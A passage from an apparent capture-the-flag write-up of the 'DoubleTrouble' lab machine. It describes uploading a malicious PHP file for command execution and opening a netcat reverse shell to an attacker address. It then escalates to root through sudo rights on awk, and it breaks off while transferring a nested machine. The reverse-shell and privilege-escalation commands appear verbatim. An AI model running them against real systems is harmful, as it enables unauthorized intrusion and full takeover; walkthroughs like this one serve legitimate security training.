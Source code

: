 ![11](/images/writeups/doubletrouble/11.png)
<h6>Malicious PHP</h6>

We upload it and navigate to the ***/uploads*** directory we found earlier while enumerating directories with **Gobuster**. Then, we access the users folder, where we will find our **PHP file**.

![12](/images/writeups/doubletrouble/12.png)

And now, we can execute commands.

![13](/images/writeups/doubletrouble/13.png)
<h6>We execute the command 'id'</h6>

So, we are going to perform a **Reverse Shell** to gain access to the machine. To do this, we set up a listener on **port 4444** with netcat.

```bash
nc -lvnp 4444
```

And then we execute this code on the website:

```bash
nc -c bash 192.168.18.100 4444
```

![14](/images/writeups/doubletrouble/14.png)


By checking the **sudo permissions**, we see that the **awk binary** can be executed as **root**.

![15](/images/writeups/doubletrouble/15.png)
<h6>Sudo permissions</h6>

The [**GTFObins**](https://gtfobins.github.io/) page shows how to exploit these permissions.

![16](/images/writeups/doubletrouble/16.png)

![17](/images/writeups/doubletrouble/17.png)
<h6>Code we need to execute</h6>

Now, we execute the command:

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![18](/images/writeups/doubletrouble/18.png)
<h6>A new machine</h6>

We are not done yet. Although we have **root** access, we can’t find any flags. Instead, we discover another machine with the same name inside this one, so we need to **download** it.

---- 
**Victim machine:**

```bash
python3 -m http.server 8080
```
----
**Our real machine:**
